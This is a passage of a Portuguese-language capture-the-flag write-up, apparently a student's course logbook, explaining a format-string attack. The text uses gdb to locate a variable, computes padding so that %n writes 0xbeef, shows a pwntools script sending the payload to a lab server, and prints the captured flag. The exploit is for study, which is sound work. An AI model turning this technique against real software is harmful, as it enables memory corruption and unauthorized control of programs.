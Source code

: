 * As funcionalidades que nos permitem obter a *flag* são o especificador `%n`, que permite escrever num endereço de memória, bem como o *gdb*, que nos permite obter esse endereço de memória

```
gdb program
p &key
```

![Endereço](/images/logbook7-endereco-desafio2.png)

* Como o número `0xbeef` em hexadecimal corresponde a **48879** em decimal, é necessário imprimir 48879 caracteres antes do especificador `%n`

* Tendo em conta que a *string* de formatação contém o endereço de memória no qual se irá escrever e este ocupa 4 caraceteres, fica a faltar imprimir 48875 (48879 - 4) caracteres para totalizar os 48879

* Então, basta acrescentar o especificador `%.48875x`, obrigando a que seja impresso um valor hexadecimal (do topo da *stack*) constituído por 48875 caracteres

* Finalmente, utilizamos `%1$n` para obrigar o especificador `%n` a escrever no endereço de memória pretendido, que se encontra no topo da *stack*

* Modificamos o ficheiro `exploit_example.py` para escrever o endereço pretendido em *string* e em *little endian*, seguido de `%.48875x` e de `%1$n`, de maneira a cumprir o pretendido

```python
#!/usr/bin/python3

from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x24\xB3\x04\x08%.48875x%1$n")
p.interactive()
```	

* Assim, obtivemos a *flag* `flag{8f9a9de482b266abe85cccb83783590d}`

![Flag](/images/logbook7-flag-desafio2.png)

## Desafio 2 (Extra Dificuldade)

* Este desafio é bastante similar ao anterior

* Ao correr `checksec program`, verificamos que o executável tem as mesmas permissões que anteriormente, o que nos permite efetuar um ataque do tipo *format string*
